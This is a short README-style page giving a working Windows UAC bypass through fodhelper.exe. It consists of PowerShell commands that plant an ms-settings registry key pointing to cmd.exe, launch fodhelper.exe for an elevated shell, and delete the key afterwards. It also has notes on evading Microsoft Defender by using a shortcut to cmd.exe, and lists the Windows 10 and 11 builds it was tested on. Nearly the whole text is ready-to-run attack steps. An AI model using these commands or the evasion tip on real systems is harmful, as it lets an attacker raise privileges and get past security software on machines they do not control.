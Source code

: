 ### Create Registry Structure
```Powershell
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force

New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force

Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name “(default)” -Value “C:\Windows\System32\cmd.exe” -Force
```

### Start fodhelper.exe
```Powershell
Start-Process "C:\Windows\System32\fodhelper.exe"
```

### Cleanup
```Powershell
Start-Sleep 3

Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```


### Notes
- Defender is triggered when trying to set the registry value as "cmd.exe"
- This can be bypassed. Create a shortcut to "cmd.exe". Then use the path to that shortcut as the registry value.
- Worked on Windows 10 Pro N 1909 Build 18363.1139 after disabling Defender.
- Worked on  Windows 11 Pro N 23H2 Build 22631.3737 after disabling Defender.